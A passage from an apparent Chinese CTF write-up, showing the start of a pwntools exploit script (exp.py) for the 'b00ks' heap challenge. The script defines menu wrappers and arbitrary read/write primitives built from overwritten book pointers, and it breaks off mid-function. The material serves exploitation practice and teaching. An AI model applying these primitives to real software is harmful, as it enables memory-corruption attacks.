完整的 `exp.py` 如下：

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    def __init__(self, local=True):
        self.local = local
        self.p = process(["./b00ks"])
        self.libc = ELF("/lib/x86_64-linux-gnu/libc-2.28.so")
        self.library_detail = []

    def gdb(self, script):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript=script)

    def create(self, book_name_size, book_name, desc_size, description):
        self.p.sendline("1")
        self.p.sendlineafter("Enter book name size: ", str(book_name_size))
        self.p.sendlineafter("Enter book name (Max 32 chars): ", book_name)
        self.p.sendlineafter("Enter book description size: ", str(desc_size))
        self.p.sendlineafter("Enter book description: ", description)
        self.p.recvuntil("> ")

    def delete(self, book_id):
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", str(book_id))
        self.p.recvuntil("> ")

    def edit(self, book_id, new_desc):
        self.p.sendline("3")
        self.p.sendlineafter("Enter the book id you want to edit: ", str(book_id))
        self.p.sendlineafter("Enter new book description: ", new_desc)
        self.p.recvuntil("> ")

    def detail(self):
        self.p.sendline("4")
        detail = self.p.recvuntil("\n\n")
        self.library_detail = [
            {
                ("ID" if len(item) == 1 else item[0]): (item[0] if len(item) == 1 else item[1])
                for item in [i.split(": ") for i in dp.strip("\n").split("\n")]
            } for dp in detail.split("\nID: ")
        ]
        self.p.recvuntil("> ")

    def set_author_name(self, author_name, init=False):
        if not init:
            self.p.sendline("5")
        self.p.sendlineafter("Enter author name: ", author_name)
        self.p.recvuntil("> ")

    def write_to(self, addr, content):
        self.edit(1, p64(addr) + p64(len(content) + 1))
        self.edit(2, content)

    def read_from(self, addr):
        self.edit(1, p64(addr))
        self.detail()
        desc = [ld["Description"] for ld in self.library_detail if ld["ID"] == "2"]
```